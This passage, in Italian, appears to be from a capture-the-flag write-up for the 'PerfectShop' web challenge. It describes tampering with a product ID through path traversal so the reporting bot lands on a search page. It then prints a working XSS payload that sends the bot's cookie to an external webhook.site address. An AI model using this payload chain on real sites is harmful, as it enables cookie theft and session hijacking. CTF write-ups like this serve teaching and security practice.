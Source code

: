 Ciò che ho fatto, è modificare il valore di `id` da `1` a `1/../../search?q=Incredible` prima che venisse inviato al server e conseguentemente al bot. Per capirci, avrei ottenuto lo stesso risultato se avessi fatto questo:

![Modifica dell'ID del prodotto dall'HTML client-side](./media/img/HTMLmodif.png)

Andando nei logs, è possibile vedere che il bot viene redirectato a `search?q=Incredible`:

![Log del bot che visita la pagina di ricerca col valore inserito da chi effettua il report](./media/img/BotFallsForIt.png)

Basta fare un breve controllo della struttura delle route del sito per convincersene.

Ora non resta che provare il payload che ha funzionato prima per esfiltrare il nostro cookie sul bot. Provando appunto il payload `<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>`, si noterebbe che l'URL completo che si visita è `http://localhost:3000/search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>` o `http://perfectshop.challs.open.ecsc2024.it/search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>` a seconda se si sta provando la challenge in locale o sul server di gara.

Questo significa che si dovrà far effettuare la stessa richiesta dal bot, il che significa effettuare la stessa modifica che si è fatta prima, fondendola con l'exploit che si è già usato:

![Esempio di attacco funzionante senza filtro](./media/img/WePwnNoFilter.png)
